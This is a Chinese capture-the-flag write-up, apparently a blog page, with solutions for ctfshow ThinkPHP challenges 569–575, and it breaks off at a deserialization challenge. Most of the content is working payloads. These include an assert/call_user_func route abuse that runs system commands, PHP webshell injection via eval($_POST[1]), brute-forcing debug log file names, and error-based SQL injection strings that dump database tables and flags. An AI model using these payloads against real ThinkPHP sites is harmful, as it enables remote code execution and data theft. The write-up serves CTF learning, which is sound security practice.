 ```yaml
---
id: ctfshow-thinkphp
title: ctfshow-thinkphp
---
```


[ThinkPHP系列专题相关POC及CTFshow---ThinkPHP专题（569-579 604-626）解题思路 - Bit's Blog (xl-bit.cn)](https://www.xl-bit.cn/index.php/archives/628/)

## 569-pathinfo的运用

```
http://serverName/index.php/模块/控制器/方法/参数
```

payload:

```
url/index.php/Admin/Login/ctfshowLogin
```

## 570-闭包路由

```php
# Application/Common/Conf/config.php
    'ctfshow/:f/:a' =>function($f,$a){
    	call_user_func($f, $a);
    	}
    )
```

[闭包支持 · ThinkPHP3.2.3完全开发手册 · 看云 (kancloud.cn)](https://www.kancloud.cn/manual/thinkphp/1710)

payload:

```
url/index.php/ctfshow/assert/assert($_GET[1])?1=system('cat /f*')
```

## 571-控制器

[控制器定义 · ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1713)

一般来说，ThinkPHP的控制器是一个类，而操作则是控制器类的一个**公共方法**。

简单审计一下：

```php
# Application\Home\Controller\IndexController.class.php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index($n=''){
        $this->show('<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} body{ background: #fff; font-family: "微软雅黑"; color: #333;font-size:24px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.8em; font-size: 36px } a,a:hover{color:blue;}</style><div style="padding: 24px 48px;"> <h1>CTFshow</h1><p>thinkphp 专项训练</p><p>hello,'.$n.'黑客建立了控制器后门，你能找到吗</p>','utf-8');
    }

}
```

该类就代表Home模块下的Index控制器，index操作就是访问该类中的index方法
即访问：`url/index.php/Home/Index/index/n/111`或`url/index.php/Home/Index/index/?n=111`

payload:

```
GET:
/index.php/Home/Index/index/?n=<?php eval($_POST[1]);?>

POST:
1=system('cat /f*');
```

## 572-debug模式访问log文件

> hint:**此题需要使用爆破来获得关键信息，非扫描，爆破次数不会超过365次，否则均为无效操作**

> [日志记录 · ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1827)
> 默认情况是debug模式下会记录日志，因此如果没有限制访问目录就容易出现文件泄露
> 且这个日志文件的命令规律是：年\_月\_日.log且日志文件是在\Application\Runtime\Logs\目录下的

bp爆破日志文件：

```
url/Application/Runtime/Logs/22_3_1.log
```

得到后门：`/index.php?showctf=<?php phpinfo();?>`

```
GET:
/index.php?showctf=<?php eval($_POST[1]);?>

POST:
1=system('cat /f*');
```

## 573-sql注入

[ThinkPHP3.2.3代码审计【find方法引起的SQL注入】_D.MIND 的博客-CSDN博客](https://blog.csdn.net/weixin_45669205/article/details/117429889)

```
?id[where]=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)

?id[where]=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='flags'),0x7e),1)

?id[where]=1 and updatexml(1,concat(0x7e,substr((select flag4s from flags),1),0x7e),1)

```



## 574-sql注入

> ```php
> public function index($id=1){
> 	$name = M('Users')->where('id='.$id)->find();
> 	$this->show($html);
> }
> ```

```
?id=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)

?id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='flags'),0x7e),1)

?id=1 and updatexml(1,concat(0x7e,substr((select flag4s from flags),1),0x7e),1)
```



## 575-反序列化POP链

> ```php
> $user= unserialize(base64_decode(cookie('user')));
> 	if(!$user || $user->id!==$id){
> 		$user = M('Users');
> 		$user->find(intval($id));
> 		cookie('user',base64_encode(serialize($user->data())));
> 	}
> 	$this->show($user->username);
> }
> ```

